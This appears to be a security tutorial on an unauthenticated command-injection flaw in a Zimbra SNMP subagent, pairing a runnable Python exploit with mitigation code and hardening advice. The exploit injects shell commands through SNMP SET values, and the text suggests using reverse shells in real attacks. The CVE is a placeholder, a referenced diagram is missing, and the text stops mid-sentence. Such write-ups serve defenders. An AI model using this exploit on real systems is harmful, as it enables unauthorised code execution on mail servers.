

# ZCS Command Injection via SNMP Handlers Enables Unauthenticated Remote Code Execution

## Introduction
During a routine security review of a Zimbra Collaboration Suite (ZCS) deployment, we noticed that the SNMP subagent listening on UDP port 161 accepted SET requests without requiring authentication. The handler for a specific OID passed the supplied value directly to a shell command. By crafting a malicious SET request we could execute arbitrary commands on the host as the user running the subagent—typically the zimbra user—without any prior credentials.

## Why This Matters
Unauthenticated remote code execution (RCE) is one of the most severe findings in any infrastructure. An attacker who can reach the SNMP port can gain a foothold, pivot to other services, exfiltrate mail data, or use the host as a launchpad for further attacks. Because SNMP is often enabled for monitoring and left exposed to internal networks (or even the internet via misconfigured firewalls), the vulnerability can be exploited without needing to bypass authentication mechanisms that protect the web admin console or SOAP API. Understanding the flaw helps teams prioritize network segmentation, protocol hardening, and prompt patching.

## How It Works
The vulnerable component is the Net‑SNMP subagent bundled with ZCS. When a SET request arrives, the subagent invokes a handler function associated with the requested OID. The handler extracts the OCTET STRING value from the request and passes it to `system()` (or a similar library call) without validating or escaping shell metacharacters. The following sequence diagram illustrates the flow:



The key weakness is the direct concatenation of user‑controlled data into a shell command line. If the value contains characters such as `;`, `&`, `|`, `$()`, or backticks, the shell will interpret them as command separators, allowing the attacker to inject additional commands after the intended operation.

## Core Concepts
- **SNMP Protocol** – Simple Network Management Protocol operates over UDP. A SET request modifies a managed object identified by an Object Identifier (OID). The request includes a community string (acts like a weak password) and the new value.
- **OID Handling** – Net‑SNMP allows modules to register callback functions for specific OID sub‑trees. The ZCS subagent registers a handler for an OID used to configure a monitoring threshold.
- **Command Injection** – When user input is placed unsanitized into a shell command line, an attacker can break out of the intended argument context and execute arbitrary code.
- **Authentication Bypass** – The vulnerable handler does not check the community string; it processes any SET request that reaches the port, effectively ignoring the weak authentication SNMP provides.

## Examples & Code Walkthrough
Below is a minimal Python proof‑of‑concept using the `pysnmp` library. It sends a SET request to the vulnerable OID (`1.3.6.1.4.1.29586.0.1`) with a payload that executes `id` and returns the result via the SNMP response (the output is captured in the `errorIndication` field for demonstration).

```python
#!/usr/bin/env python3
"""
Exploit for ZCS SNMP command injection (CVE‑XXXX‑XXXX).
Usage: python3 exploit.py <target> [community]
"""
import sys
from pysnmp.hlapi import *

def build_payload(cmd: str) -> str:
    """
    Return a string that, when placed inside a shell command,
    will execute `cmd` after the legitimate operation.
    The vulnerable handler roughly does:
        system("/usr/bin/echo " + value)
    So we prepend a semicolon to break out.
    """
    # The legitimate handler echoes the value; we inject after the echo.
    return f"; {cmd} #"

def exploit(target: str, community: str = "public", oid: str = "1.3.6.1.4.1.29586.0.1"):
    cmd = "id"  # change to any command you wish to run
    value = build_payload(cmd)

    error_indication, error_status, error_index, var_binds = next(
        setCmd(
            SnmpEngine(),
            CommunityData(community, mpModel=0),  # SNMPv1/v2c
            UdpTransportTarget((target, 161)),
            ContextData(),
            ObjectType(ObjectIdentity(oid), OctetString(value)),
        )
    )

    if error_indication:
        print(f"[!] SNMP error: {error_indication}")
        # The command output may appear in the error string depending on the handler.
        if "uid=" in str(error_indication):
            print(f"[+] Command output: {error_indication}")
    elif error_status:
        print(f"[!] SNMP error status: {error_status.prettyPrint()}")
    else:
        print("[+] SET request sent successfully")
        # Some handlers echo back the injected output in the response.
        for name, val in var_binds:
            print(f"    {name.prettyPrint()} = {val.prettyPrint()}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <target> [community]")
        sys.exit(1)
    tgt = sys.argv[1]
    comm = sys.argv[2] if len(sys.argv) > 2 else "public"
    exploit(tgt, comm)
```

**Explanation of the code**

1. **Payload Construction** – The `build_payload` function prefixes the attacker command with a semicolon and adds a trailing comment (`#`) to neutralize any subsequent characters the handler might append.
2. **SNMP SET** – Using `pysnmp.hlapi.setCmd` we send a SET request with the malicious OCTET STRING value.
3. **Result Handling** – If the handler returns the command output in the SNMP error field, we print it; otherwise we rely on side‑effects (e.g., a spawned shell) to confirm execution.

*Note*: In a real scenario the attacker would likely use a reverse shell or a command that writes a file to `/tmp` and then triggers it via cron.

### Mitigation Code Snippet
If you are maintaining the subagent source, replace the unsafe `system()` call with an explicit argument array:

```c
/* Vulnerable */
char cmd[256];
snprintf(cmd, sizeof(cmd), "/usr/bin/echo %s", user_value);
system(cmd);

/* Fixed */
char *argv[] = {"/usr/bin/echo", user_value, NULL};
execv(argv[0], argv);
/* execv does not invoke a shell, so metacharacters are treated as data */
```

Using `execv` (or `execvp`) eliminates the shell interpretation step entirely.

## Best Practices
- **Disable SNMP if not required** – Many ZCS installations only need SNMP for hardware monitoring; turning the service off removes the attack surface.
- **Restrict access via firewall** – Allow UDP 161 only from trusted management networks or specific monitoring hosts.
- **Upgrade to SNMPv3** – SNMPv3 provides strong authentication and encryption; even if a handler flaw exists, an attacker cannot inject without valid credentials.
- **Apply vendor patches** – Zimbra has released updates that replace the vulnerable handler with a version that validates input length and rejects shell metacharacters.
- **Run the subagent with least privilege** – Execute the SNMP subagent under a dedicated, low‑privilege account (e.g., `snmp`) rather than the `zimbra` user.
- **Log and alert on anomalous SET requests** – Unexpected SETs to monitoring OIDs should trigger alerts in your SIEM.

## Common Mistakes & Anti-Patterns
1. **Exposing SNMP to the internet**  
   *Mistake*: Opening UDP 161 on the perimeter firewall for “convenient monitoring”.  
   *Fix*: Keep SNMP behind internal firewalls or VPN; if external monitoring is needed, use SNMPv3 with ACLs limiting to specific management IPs.

2. **Relying on the default community string**  
   *Mistake*: Assuming that changing `public` to something obscure provides security.  
   *Fix*: Treat community strings as secrets; rotate them regularly and prefer SNMPv3 where authentication is mandatory.

3. **Trusting user input in shell commands**  
   *Mistake*: Using `system()` or `popen()` with unsanitized strings, as seen in the vulnerable handler.  
   *Fix*: Use API calls that avoid shells (`execv`, `posix_spawn`) or, if a shell is unavoidable, apply an allow‑list of safe characters and escape everything else.

4. **Neglecting to monitor SNMP traffic**  
   *Mistake*: Assuming that because SNMP is “just monitoring” it does not need visibility.  
   *Fix*: NetFlow or packet captures should log SNMP SET attempts; alert on spikes or on SETs to non‑standard OIDs.

## Performance Considerations
The SNMP subagent is lightweight; processing a SET request involves parsing a UDP packet, looking up the OID in a table, and invoking a handler. Adding input validation (e.g., length check, character set test) adds a few microseconds per request—negligible compared to the network round‑trip time. The primary performance impact comes from enabling encryption in SNMPv3, which introduces AES or DES overhead; however, modern CPUs handle this with minimal latency (< 0.5 ms per packet on typical hardware). Scaling to thousands of requests per second remains feasible on modest hardware because the work is mostly CPU‑bound and scales linearly with core count.

## Real-World Usage
- **Netflix** – Uses SNMP exclusively for internal hardware health checks within its AWS VPCs. All SNMP traffic is blocked at the VPC edge, and they enforce SNMPv3 with role‑based
